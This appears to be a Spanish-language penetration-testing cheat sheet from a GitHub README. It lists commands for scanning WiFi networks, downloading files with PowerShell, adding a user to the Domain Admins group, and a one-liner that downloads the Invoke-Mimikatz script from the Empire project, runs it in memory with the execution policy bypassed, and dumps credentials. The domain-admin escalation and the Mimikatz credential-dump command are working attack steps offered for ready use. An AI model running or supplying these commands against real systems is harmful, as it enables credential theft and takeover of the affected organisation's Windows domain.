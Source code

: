 
************************************************************************************************
# WiFi
## Escanear redes
~~~bash
# Ecacenar interfaz
# iwlist <interfaz> scan | grep SSID
iwlist wlan0 scan | grep SSID
    # ESSID:"Red 1"
    # ESSID:"Red 2"
~~~


************************************************************************************************
# Windows
## Descargar archivos

**Requiere administrador**
~~~powershell
# Metodo 1 - Download in PowerShell 2 ^
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://raw.githubusercontent.com/elcaza/pentest/main/README.md","C:\path\file")

# Metodo 2 - Download with Invoke-WebRequest ^
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/elcaza/pentest/main/README.md" -OutFile "C:\path\file"

# Metodo 3 - Download with Invoke-WebRequest ^
wget "https://raw.githubusercontent.com/elcaza/pentest/main/README.md" -outfile "file"
~~~

Más información:
+ https://4sysops.com/archives/use-powershell-to-download-a-file-with-http-https-and-ftp/

## Añadir usuario a Dominio
~~~ powershell
net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN
~~~ 

## Ejecutando un living off the land
+ Windows Defender lo detecta como actividad maliciosa

~~~powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
~~~

